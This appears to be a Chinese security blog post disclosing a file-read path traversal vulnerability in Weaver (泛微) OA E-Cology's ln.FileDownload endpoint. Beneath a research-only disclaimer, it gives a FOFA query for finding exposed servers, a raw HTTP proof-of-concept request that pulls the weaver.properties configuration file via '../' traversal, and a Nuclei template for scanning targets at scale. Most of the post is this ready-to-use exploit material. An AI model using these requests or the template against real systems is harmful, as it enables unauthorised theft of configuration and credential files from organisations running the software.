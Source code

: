#  泛微OA E-Cology ln.FileDownload 文件读取漏洞   
lcyunkong  云途安全   2024-05-11 15:41  
  
**0x00 阅读须知**  
  
****  
**免责声明：****本文提供的信息和方法仅供网络安全专业人员用于教学和研究目的，不得用于任何非法活动。读者若使用文章内容从事任何未授权的行为，需自行承担所有法律责任和后果。本公众号及作者对由此引起的任何直接或间接损失不负责任。请严格遵守相关法律法规。**  
###   
### 0x01 漏洞简介  
  
  
泛  
微e-cology是一款由  
泛微网络  
科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公解决方案。e-cology平台提供了一系列协同办公工具，包括在线办公应用、文档管理、任务管理、日程安排、电子邮件和即时通讯等  
。这个系统被发现存在文件读取漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYAQpLaxpAsTiaLG0Y7Tgic4COhyROsAdbANFzm0sgBt9dicyLjLJOyDaO4h6R5OfynkyI16ll3Sq1NA/640?wx_fmt=png&from=appmsg "")  
### 0x02 漏洞详情  
  
****  
**fofa：****app="泛微-OA（e-cology）"**  
  
****  
**Poc：**  
```
GET /weaver/ln.FileDownload?fpath=../ecology/WEB-INF/prop/weaver.properties HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYAQpLaxpAsTiaLG0Y7Tgic4CYpJ7nXc4dISiazHGRJvjNsX8u7jFDDnYqqHUFalXwqFm8pQftbpgtYA/640?wx_fmt=png&from=appmsg "")  
  
**0x03 Nuclie**  
  
```
id: FanWeiOA_E-Cology-FileDownload-fileread

info:
  name: FanWeiOA_E-Cology-FileDownload-fileread
  author: yunkong
  severity: high
  description: 泛微OA E-Cology ln.FileDownload文件读取漏洞
  tags: tags

http:
  - raw:
      - |+
        GET /weaver/ln.FileDownload?fpath=../ecology/WEB-INF/prop/weaver.properties HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1


    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - filename=weaver.properties.license
      - type: word
        part: body
        words:
          - ecology
      - type: status
        status:
          - 200
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYAQpLaxpAsTiaLG0Y7Tgic4C4S60NH2icn77otYUsG5j63WYlzUZ280RjqcLqn9YJRxebDo1PENlvpw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
